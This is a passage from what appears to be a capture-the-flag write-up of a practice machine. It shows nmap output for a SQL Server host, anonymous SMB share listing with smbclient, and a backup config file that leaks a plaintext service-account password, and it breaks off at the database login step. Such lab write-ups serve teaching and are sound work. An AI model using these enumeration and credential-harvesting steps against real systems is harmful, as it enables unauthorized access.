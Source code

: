 ```
|   10.129.91.127:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  2 14:28:26 2022 -- 1 IP address (1 host up) scanned in 22.75 seconds
```

### smb
`smb` is open so: 
```shell {linenos=false}
$ smbclient -N -L 10.129.91.127
```

*command tags:*
- `-N | --no-pass`: supresses the normal password prompt from the client to the user.
- `-L | --list`: list available services on the server

We can connect to the `backups` service without a password via: 

```shell {linenos=false}
$ smbclient \\\\10.129.91.127\\backups
```

The only file housed here is `prod.dtsConfig`.

*file: prod.dtsConfig*
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>  
```

Noteably, this file leaks us 

```{linenos=false}
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;
```

### sql
Attempting to connect to sql database using `mysql`:
